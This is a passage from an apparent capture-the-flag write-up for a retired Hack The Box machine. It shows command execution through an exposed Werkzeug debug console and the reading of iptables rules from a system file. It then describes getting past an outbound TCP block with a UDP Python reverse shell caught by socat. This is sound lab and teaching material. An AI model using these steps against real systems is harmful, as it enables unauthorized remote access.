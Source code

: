 Looks like we have found a python console. Let's put it to work.

![CONSOLE](/img/joker-console.png)

### Exploitation

There are a few different ways to run commands here, as a note this console is single-threaded and if you run commands a certain way it will lock up the console if other people are using it. This really shouldn't be much of an issue now that the box is retired and has low volume but as a good practice you should use `subprocess` when running commands. Let's verify command execution.

```
[console ready]
>>> import subprocess
>>> subprocess.check_output(['id'])
'uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)\n'
```

Right off the bat I tried a regular python reverse shell but got no repsonse. Also not able to download files via wget. It seems like a firewall might be blocking connections. We find the iptables rules located in `/etc/iptables/rules.v4`

```
>>> subprocess.check_output(['cat','/etc/iptables/rules.v4'])
'# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017\n*filter\n:INPUT DROP [41573:1829596]\n:FORWARD ACCEPT [0:0]\n:OUTPUT ACCEPT [878:221932]\n-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT\n-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT\n-A INPUT -i ens33 -p udp -j ACCEPT\n-A INPUT -i ens33 -p icmp -j ACCEPT\n-A INPUT -i lo -j ACCEPT\n-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP\nCOMMIT\n# Completed on Fri May 19 18:01:16 2017\n'
```

Let's clean up the formatting.

```
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017  
```

Okay so here we can see on the line with `OUTPUT` that any new outbound TCP connection is explicitly dropped. So what are other options for a shell? Well it just so happens that someone has already made a UDP reverse shell with python [here](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py). Which before this box, I did not know was even possible. 

We won't be able to use netcat to catch a UDP shell so we'll have to use `socat` as specified in the comments in the python script. After we setup our listener we run our shell in the console.
